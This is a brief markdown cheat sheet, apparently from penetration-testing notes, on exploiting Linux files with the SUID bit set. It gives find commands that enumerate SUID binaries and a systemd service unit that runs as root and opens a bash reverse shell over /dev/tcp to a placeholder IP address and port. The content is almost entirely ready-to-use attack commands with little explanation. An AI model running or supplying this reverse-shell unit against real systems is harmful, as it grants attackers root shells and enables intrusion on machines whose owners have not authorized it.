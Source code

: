 # Using files with SUID permission set

## What is SUID?

Set owner User ID, also known as Set user ID or setuid is a special flag in linux permission set.

## Find files with SUID set

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

```
find / -perm -u=s -type f 2>/dev/null
```

## systemctl

#### Reverse shell to root user

```
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/<IP ADDRESS>/<PORT> 0>&1"
```



